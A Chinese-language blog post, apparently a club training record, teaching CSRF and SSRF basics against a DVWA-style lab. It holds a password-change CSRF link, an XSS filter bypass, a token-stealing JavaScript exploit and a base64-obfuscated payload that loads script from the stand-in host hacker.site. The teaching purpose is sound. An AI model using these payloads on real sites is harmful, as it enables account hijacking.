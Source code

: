 ```yaml
---
layout: post
title: "CSRF+SSRF入门(社团培训记录)"
tags: [group]
author: wqpw
---
```


# CSRF+SSRF入门(社团培训记录)

突然想记录下。

## CSRF

```text
CSRF，全名 Cross Site Request Forgery，跨站请求伪造。易与 XSS 混淆，对于 CSRF，其两个关键点是跨站点的请求与请求的伪造。因为用户的敏感操作的每一个参数都可以被攻击者获知，攻击者可以伪造一个完全一样的请求以用户的身份达到恶意目的，即CSRF攻击。
```

![1](/assets/pcs1.png)

这个页面有一个修改管理员密码的功能。

![2](/assets/pcs2.png)

试一下，我们可以得知修改密码的请求是

`http://justforfun.site/vulnerabilities/csrf/?password_new=新密码&password_conf=新密码&Change=Change`

所以如果我们想把管理员的密码变成我们期望的密码，就可以[社工](https://baike.baidu.com/item/%E7%A4%BE%E4%BC%9A%E5%B7%A5%E7%A8%8B%E5%AD%A6/2136830)(社会工程学，动词社工。以前时认识一个人关于这个挺有一套的，暂且不表)管理员点击下面的链接(把密码改成hacker)：

`http://justforfun.site/vulnerabilities/csrf/?password_new=hacker&password_conf=hacker&Change=Change`

但是这样太显眼了，管理员~~不一定~~一定不会上当，所以我们需要想办法伪装掩饰一下。

比如这样

![3](/assets/pcs3.png)

只要一打开hacker.site，浏览器就会自动发送修改密码的请求。这样只要骗管理员打开hacker.site就行，成功率有不少提升。

当然，因为只是一个GET请求，所以[方法](https://ctf-wiki.github.io/ctf-wiki/web/csrf/)有很多：

```html
(HTML中能设置src/href等链接地址的标签都可以发起一个GET请求)
<link href="">
<img src="">
<img lowsrc="">
<img dynsrc="">
<meta http-equiv="refresh" content="0; url=">
<iframe src="">
<frame src="">
<script src=""></script>
<bgsound src=""></bgsound>
<embed src=""></bgsound>
<video src=""></video>
<audio src=""></audio>
<a href=""></a>
<table background=""></table>
......
还有CSS样式中的：
@import ""
background:url("")
......
```

下面看一个难一点的：

```php
<?php
if( isset( $_GET[ 'Change' ] ) ) {
    // Checks to see where the request came from
    if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {
        // Get input
        $pass_new  = $_GET[ 'password_new' ];
        $pass_conf = $_GET[ 'password_conf' ];

        // Do the passwords match?
        if( $pass_new == $pass_conf ) {
            // They do!
        ......下略
```

这段代码里检查了`$_SERVER['SERVER_NAME']`是否在`$_SERVER['HTTP_REFERER']`中出现，然后才会进入修改密码的流程，所以首先我们来康康这两东西是啥。

|||
--|:--:|
`$_SERVER['SERVER_NAME']`|返回当前运行脚本所在的服务器的主机名|
`$_SERVER['HTTP_REFERER']`|链接到当前页面的前一页面的 URL 地址|
|||

所以只要想办法让referer里有`justforfun.site`就可以通过检测了。

除了伪造referer，最简单的方法就是结合同站的XSS。

![4](/assets/pcs4.png)

这里的XSS保护`只过滤了一次<script>`，所以只要类似`<scr<script>ipt>alert(1)</script>`这样就可以弹个框。

不过这里的CSRF还用不上`<script>`，用前面的img标签就行。

![5](/assets/pcs5.png)

然后更难一点

![6](/assets/pcs6.png)

这个会先检测token(令牌)，如果发送的token和系统生成的token不一样就不会改密码，所以我们要想办法取得系统生成的token。而在这里访问一次修改密码的页面就会生成一个token放在html中，所以利用XSS把页面生成的token偷出来就可以进行CSRF攻击了。

下面是CSRF的exp (在hacker.site根目录下，文件名hack.js):

```javascript
/* 相关教程：http://www.w3school.com.cn/ajax/index.asp */
var hack1 = new XMLHttpRequest();
var token = '';
var url = 'http://justforfun.site/vulnerabilities/csrf/?password_new=123456&password_conf=123456&Change=Change&user_token=';

hack1.open("GET", "/vulnerabilities/csrf/",true);
hack1.send();
hack1.onreadystatechange=function() {
  //请求发送成功后提取token并修改密码  
  if(hack1.readyState==4 && hack1.status==200) {
      token = hack1.responseText.match(/[0-9a-z]{32}/)[0]; //是一个长为32由0-9a-z组成的字符串
      var hack2 = new XMLHttpRequest();
      hack2.open("GET", url + token, true); //发送修改密码的请求
      hack2.send();
  }
}

```

然后是用于XSS的payload:

```html
<img src=x onerror=eval(atob('cz1jcmVhdGVFbGVtZW50KCdzY3JpcHQnKTtib2R5LmFwcGVuZENoaWxkKHMpO3Muc3JjPSdodHRwOi8vaGFja2VyLnNpdGUvaGFjay5qcyc='))>
```

解密后会执行
`s=createElement('script');body.appendChild(s);s.src='http://hacker.site/hack.js`

即向body内插入一个`<script src='http://hacker.site/hack.js'>`，从而执行`hack.js`中的代码。

效果如下：

![7](/assets/pcs7.png)

那么这里的CSRF入门大概先说到这，当然网上有很多资料。
嗯，现在来看两个例子：

[漏洞科普 对于XSS和CSRF你究竟了解多少](https://www.freebuf.com/articles/web/39234.html)

文中有一些小错误但影响不大。

[绕过Facebook CSRF防护机制实现账户劫持](https://www.freebuf.com/vuls/195814.html)

[“借刀杀人”之CSRF拿下盗图狗后台](https://www.freebuf.com/column/159411.html)

## 然后是SSRF

[来听个课](https://www.bilibili.com/video/av37393329)

[然后看点资料](https://ctf-wiki.github.io/ctf-wiki/web/ssrf/)

单纯的ssrf用处不是很大，一般都会想办法结合其他信息或者漏洞来产生更大的价值。

[谷歌SSRF漏洞解析：利用谷歌应用工具发现谷歌内部DNS信息](https://www.freebuf.com/articles/network/128508.html)

多学习，然后能看懂的漏洞报告、分析就会变多，然后技术自然会上去。

以前印象挺深的一个

[百度某个从SSRF到内网WebShell](http://www.anquan.us/static/bugs/wooyun-2015-099070.html)

结束。